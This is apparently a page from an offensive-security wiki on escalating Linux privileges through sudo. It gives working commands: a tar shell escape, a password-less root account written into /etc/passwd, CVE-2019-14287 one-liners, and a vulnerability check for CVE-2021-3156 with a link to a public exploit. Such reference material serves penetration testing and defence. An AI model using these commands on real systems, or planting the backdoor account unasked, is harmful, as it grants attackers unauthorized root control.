 # 🛠️ SUDO

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯_I know right_🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](../../../.gitbook/assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure misconfiguration, or by exploiting the program's vulnerabilities.

### Configuration

#### Default permissions

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

#### Living off the land

While, the configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

#### Escalation tricks

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### Vulnerabilities

#### CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a `sudo -u \#$((0xffffffff))` command.

Exploiting the bug requires that the user have sudo privileges that allow them to run commands with an arbitrary user ID. Typically, this means that the user's sudoers entry has the special value ALL in the Runas specifier. Sudo supports running a command with a user-specified user name or user ID, if permitted by the sudoers policy.

**Find vulnerable users**

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
# specified by uid
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` \(or its 32-bit unsigned equivalent `4294967295`\), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.

Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.

**Exploits** :

* `sudo -u#-1 sh -p`
* `sudo -u#4294967295 sh -p`

**Additional References** :

* [https://nvd.nist.gov/vuln/detail/CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)

#### CVE-2021-3156 - Heap-Based Buffer Overflow in Sudo \(Baron Samedit\)

Sudo before 1.9.5p2 has a Heap-based Buffer Overflow, allowing privilege escalation to root via "sudoedit -s" and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, login to the system as a non-root user and run command `sudoedit -s /`.

* If the system is patched, it will respond with an error that starts with `usage:` such as :

```text
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
```

* If the system is vulnerable, it will respond with an error that starts with `sudoedit:` such as :

```text
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

**Exploits** :

To exploit a vulnerable system, you can use this exploit : [https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156\_one\_shot](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot)

**Additional References** :

* Original Advisory : [https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)
* [https://nvd.nist.gov/vuln/detail/CVE-2021-3156](https://nvd.nist.gov/vuln/detail/CVE-2021-3156)

## References

{% embed url="https://gtfobins.github.io/\#+sudo" caption="" %}

